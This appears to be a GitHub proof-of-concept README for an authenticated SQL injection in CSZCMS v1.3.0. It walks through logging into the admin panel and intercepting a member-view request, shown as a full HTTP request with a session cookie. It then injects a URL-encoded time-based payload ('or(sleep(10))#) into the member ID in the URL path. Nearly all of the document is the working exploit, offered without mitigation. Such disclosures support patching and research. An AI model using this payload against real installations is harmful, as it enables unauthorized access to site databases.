 # CSZCMS-v1.3.0---SQL-Injection-Authenticated-
CSZCMS v1.3.0  SQL Injection (Authenticated)

# 1 - Log in to the admin portal

http://localhost/cszcms/admin/login

# 2 - Navigate to General Menu > Member Users.

# 3 Click the 'View' button next to any username.

# 4 Intercept the request

GET /cszcms/admin/members/view/1 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: 86112035d26bb3c291899278f9ab4fb2_cszsess=n5v1jcdqfjuuo32ng66e4rttg65ugdss
Upgrade-Insecure-Requests: 1



# 5 Modify the paramter 

/cszcms/admin/members/view/1

to 

/cszcms/admin/members/view/'or(sleep(10))#

and url encode all characters

/cszcms/admin/members/view/%27%6f%72%28%73%6c%65%65%70%28%31%30%29%29%23%20
